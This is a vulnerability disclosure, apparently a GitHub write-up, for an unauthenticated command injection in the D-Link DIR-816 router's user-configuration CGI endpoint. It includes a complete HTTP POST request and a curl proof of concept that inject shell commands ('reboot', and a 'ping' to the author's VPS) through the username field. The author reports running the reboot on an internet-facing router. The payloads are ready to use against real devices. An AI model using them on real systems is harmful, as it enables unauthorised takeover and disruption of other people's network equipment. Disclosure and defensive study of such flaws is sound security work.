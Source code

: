 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router ,**Firmware version is**  DIR816_A1_FW101CNB04

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_459EF0 ruction in IDA view

![image-20210820151433873](./img/image-20210820151433873.png)

​	Select user account configuration under the maintenance option of router configuration.

![image-20210820151842671](./img/image-20210820151842671.png)

​	 Different from dir-816a2_ FWv1.10CNB05_ R1b011d88210 firmware version this version only needs to close the  command with single quotation marks and then execute our command with a  semicolon ，don't even need to ask for a tokenid

```
POST /goform/form2userconfig.cgi HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: http://xxxx
Connection: close
Referer: http://xxxx/d_userconfig.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

username=123';reboot;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send
```

##### POC&&EXP

input vps ip
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=Admin';ping vps;'&oldpass=123&newpass=123&confpass=123&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send"
```
 Now it will ping my VPS address 


##### TEST

![image-20210820152544416](./img/image-20210820152544416.png)

​	GDB stops at the command we are about to execute

![image-20210820152604249](./img/image-20210820152604249.png)	Successfully executed sh

​	I successfully asked the router on the public network to execute the reboot command

